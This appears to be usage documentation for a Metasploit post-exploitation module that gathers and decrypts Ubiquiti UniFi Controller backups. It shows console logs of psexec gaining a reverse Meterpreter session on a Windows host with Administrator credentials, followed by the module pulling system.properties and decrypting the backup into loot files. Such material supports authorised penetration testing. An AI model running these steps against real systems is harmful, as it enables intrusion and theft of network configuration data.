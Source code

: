 ```
2.2.2.2                 ubiquiti.system.properties                /var/lib/unifi/system.properties                              text/plain                                                              /root/.msf4/loot/20190310155835_default_2.2.2.2_ubiquiti.system._487688.txt
2.2.2.2                 ubiquiti.unifi.backup                     5.10.19.unf                                                   application/zip  Ubiquiti Unifi Controller Encrypted Backup Zip         /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_802011.unf
2.2.2.2                 ubiquiti.unifi.backup_decrypted           5.10.19.unf.broken.zip                                        application/zip  Ubiquiti Unifi Controller Decrypted Broken Backup Zip  /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_933774.zip
2.2.2.2                 ubiquiti.unifi.backup_decrypted_repaired  5.10.19.unf.zip                                               application/zip  Ubiquiti Unifi Controller Backup Zip                   /root/.msf4/loot/20190310155836_default_2.2.2.2_ubiquiti.unifi.b_271407.zip
```

### Ubiquiti Unifi Controller 5.10.19 (Build: atag_5.10.19_11646) on Windows 2012

#### Initial Access

```
[*] Processing unifi.rb for ERB directives.
resource (unifi.rb)> use exploit/windows/smb/psexec
resource (unifi.rb)> set smbpass Password123
smbpass => Password123
resource (unifi.rb)> set smbuser Administrator
smbuser => Administrator
resource (unifi.rb)> set rhosts 4.4.4.4
rhosts => 4.4.4.4
resource (unifi.rb)> run
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 4.4.4.4:445 - Connecting to the server...
[*] 4.4.4.4:445 - Authenticating to 4.4.4.4:445 as user 'Administrator'...
[*] 4.4.4.4:445 - Selecting PowerShell target
[*] 4.4.4.4:445 - Executing the payload...
[+] 4.4.4.4:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (179779 bytes) to 4.4.4.4
[*] Meterpreter session 3 opened (1.1.1.1:4444 -> 4.4.4.4:61034) at 2019-03-10 15:58:32 -0400

meterpreter > background
[*] Backgrounding session 3...
```

#### Module

```
resource (unifi.rb)> use post/multi/gather/ubiquiti_unifi_backup
resource (unifi.rb)> set verbose true
verbose => true
resource (unifi.rb)> set session 3
session => 3
resource (unifi.rb)> run
[*] File C:\Users\Administrator\Ubiquiti UniFi\data\system.properties saved to /root/.msf4/loot/20190310155838_default_4.4.4.4_ubiquiti.system._035659.txt
[+] Read UniFi Controller file C:\Users\Administrator\Ubiquiti UniFi\data\system.properties
[+] Found backup folder: C:\Users\Administrator\Ubiquiti Unifi\data\backup
[+] File C:\Users\Administrator\Ubiquiti Unifi\data\backup/5.10.19.unf saved to /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_024488.unf
[+] File 5.10.19.unf DECRYPTED and saved to /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_661494.zip.  File needs to be repair via `zip -FF`
[*] Attempting to repair zip file (this is normal)
[+] File C:\Users\Administrator\Ubiquiti Unifi\data\backup/5.10.19.unf DECRYPTED and REPAIRED and saved to /root/.msf4/loot/20190310155839_default_4.4.4.4_ubiquiti.unifi.b_212269.zip.
[*] Post module execution completed
[*] Starting persistent handler(s)...
```